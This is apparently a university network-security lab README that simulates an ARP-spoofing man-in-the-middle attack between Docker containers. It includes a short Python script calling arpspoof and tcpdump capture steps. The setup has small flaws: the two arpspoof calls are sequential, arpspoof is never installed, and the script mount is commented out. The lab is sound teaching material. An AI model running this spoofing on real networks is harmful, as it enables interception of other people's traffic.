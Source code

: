 

# Network Security Lab: Man-in-the-Middle Attack Simulation with Docker

## Introduction
In this lab, you will simulate a Man-in-the-Middle (MITM) attack using Docker and Docker Compose. The goal is to set up two virtual machines: one representing a victim and the other an attacker, connected through a common network. You will use Wireshark to analyze network traffic and a custom script to mimic the behavior of Winarp.exe to carry out an ARP spoofing attack.

## Prerequisites
Before starting this lab, make sure you have the following installed:
- Docker Desktop (supports both x86 and Apple Silicon)
- Wireshark (for network traffic analysis)
- Basic understanding of ARP spoofing and networking concepts

## Lab Setup

### Step 1: Install Docker Desktop
Docker Desktop is required to simulate the victim and attacker machines. If you haven’t installed Docker Desktop, follow the installation instructions here: [Docker Desktop Installation](https://docs.docker.com/desktop/).

Once installed, verify that both Docker and Docker Compose are working by running:


```bash
docker --version
docker-compose --version
```

### Step 2: Clone the Lab Repository
The lab environment is available as a Docker Compose configuration. Clone the repository to your local machine using:

```bash
git clone https://github.com/ncat-grad-development/comp726-hw1-alt
```

```bash
cd comp726-hw1-alt
```
```bash
cd mitm-docker
```

### Step 3: Docker Compose Configuration
The following `docker-compose.yml` sets up two containers (victim and attacker) connected through a common network. The attacker container will have elevated network permissions to simulate an MITM attack.

```yaml
version: '3'
services:
  victim:
    image: ubuntu:latest
    container_name: victim
    command: bash -c "apt-get update && apt-get install -y vim tcpdump && sleep infinity"
    networks:
      - mitm_net
    cap_add:
      - NET_RAW

  attacker:
    image: ubuntu:latest
    container_name: attacker
    command: bash -c "apt-get update && apt-get install -y vim tcpdump && sleep infinity"
    networks:
      - mitm_net
    cap_add:
      - NET_ADMIN
    #volumes:
     # - ./mitm_script.py:/home/ubuntu/mitm_script.py

networks:
  mitm_net:
    driver: bridge
```
### Step 4o: Gather Network Infomation
Run the following command. Take note of each IP address

```bash
echo "Attacker IP: $(docker inspect -f '{{range .NetworkSettings.Networks}}{{.IPAddress}}{{end}}' attacker)"; \
echo "Victim IP: $(docker inspect -f '{{range .NetworkSettings.Networks}}{{.IPAddress}}{{end}}' victim)"; \
echo "Gateway IP: $(docker inspect -f '{{range .NetworkSettings.Networks}}{{.Gateway}}{{end}}' attacker)"
```

### Step 4: MITM Attack Script
The following script simulates the ARP spoofing attack. It should be executed in the attacker container.


```python
# Basic Python script to simulate MITM setup
import os

victim_ip = input("Enter victim IP: ")
gateway_ip = input("Enter gateway IP: ")

# Run ARP spoofing (this needs to be done in the attacker container)
os.system(f"arpspoof -i eth0 -t {victim_ip} {gateway_ip}")
os.system(f"arpspoof -i eth0 -t {gateway_ip} {victim_ip}")
```

### Step 5: Run the Lab Environment
Once you have the `docker-compose.yml` file and the MITM script in place, you can start the lab environment using the following command:

```bash
docker-compose up
```

This will start two containers: `victim` and `attacker`, both connected through a common network.

### Step 6: Launch the Attack
To launch the MITM attack, follow these steps:

1. Open a terminal window for the attacker container:
   ```bash
   docker exec -it attacker bash -c "cd /home/ubuntu && bash"
   ```

2. Run the MITM Python script inside the attacker container. The script will prompt you to enter the victim's IP and the gateway IP.

   Assuming your victim container has an IP of `172.18.0.2` and the gateway has an IP of `172.18.0.1`, you would run:
   ```bash
   python3 mitm_script.py
   ```

   Then, input the victim IP and gateway IP as prompted:
   ```bash
   Enter victim IP: 172.18.0.2 # use IP address from Step 4o
   Enter gateway IP: 172.18.0.1 # use IP address from Step 4o
   ```

   This will initiate the ARP spoofing attack.

### Step 7: Generate Network Traffic on the Victim
You can simulate network traffic from the victim container by running basic network commands like `ping` or `curl`:

1. Open a terminal for the victim container:
   ```bash
   docker exec -it victim bash -c "cd /home/ubuntu && bash"
   ```

2. Use the `ping` command to generate network traffic:
   ```bash
   ping 172.18.0.1  # Gateway IP
   ```

3. You can also try `curl` to generate HTTP requests:
   ```bash
   curl http://ncat.edu
   ```



### Step 8: Use `tcpdump` to Analyze Traffic

1. **Install `tcpdump`**:
   If `tcpdump` is not already installed in the attacker container, install it using the following command:
   ```bash
   apt-get update && apt-get install -y tcpdump
   ```

2. **Capture traffic on the Docker bridge network**:
   Start capturing traffic in the attacker container on the `eth0` interface (or the relevant interface for the container). Run the following command in the attacker container:
   ```bash
   tcpdump -i eth0 -w mitm_capture.pcap
   ```

   This will capture all traffic on the interface `eth0` and save it to the file `mitm_capture.pcap`.

3. **Analyze captured traffic**:
   After capturing the traffic, you can transfer the `.pcap` file to your local machine for analysis using a tool like Wireshark, or you can analyze it directly from the command line using `tcpdump`:

   - To view the contents of the capture file:
     ```bash
     tcpdump -r mitm_capture.pcap
     ```

   - To filter ARP traffic only:
     ```bash
     tcpdump -r mitm_capture.pcap arp
     ```

4. **Transferring the `.pcap` file**:
   If you need to analyze the capture in Wireshark (on a GUI machine), you can copy the `.pcap` file to your host machine. For example, using `docker cp`:
   ```bash
   docker cp attacker:/path/to/mitm_capture.pcap ./mitm_capture.pcap
   ```

   Then, you can open the `mitm_capture.pcap` file in Wireshark for further analysis.

### Step 9: Clean Up
When you are done with the lab, you can stop and remove the Docker containers by running:

```bash
docker-compose down
```

## Conclusion
In this lab, you successfully simulated a Man-in-the-Middle attack using Docker and Docker Compose. You learned how ARP spoofing works and used `tcpdump` to analyze the network traffic. Be sure to review the captured traffic to fully understand how MITM attacks can be executed and detected.


